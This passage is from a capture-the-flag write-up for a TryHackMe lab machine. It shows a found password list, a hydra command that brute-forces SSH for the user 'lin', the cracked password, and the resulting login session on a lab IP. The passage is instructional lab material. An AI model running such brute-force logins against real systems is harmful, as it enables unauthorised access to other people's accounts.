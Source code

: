 ```
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e

```

This seems to be a password list. Let's use `hydra` to bruteforce the SSH server. Let's set `lin` as the username, and use the `locks.txt` as the password list.
`hydra -l lin -P locks.txt <Machine's IP address> ssh -V`

![image](https://github.com/ivanloh1216/TryHackMe/assets/58873811/95032a7b-27a9-4913-85c9-48373e54a492)

Boom! We got the password for the SSH server.

>RedDr4gonSynd1cat3

### 5. user.txt

With the SSH server credentials obtained earlier, let's log in to the SSH server.
`ssh lin@<Machine's IP address> -p 22`

```
The authenticity of host '10.10.139.84 (10.10.139.84)' can't be established.
ED25519 key fingerprint is SHA256:Y140oz+ukdhfyG8/c5KvqKdvm+Kl+gLSvokSys7SgPU.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.139.84' (ED25519) to the list of known hosts.
lin@10.10.139.84's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$
```

Now let's try to list out the files available.
`ls -all`
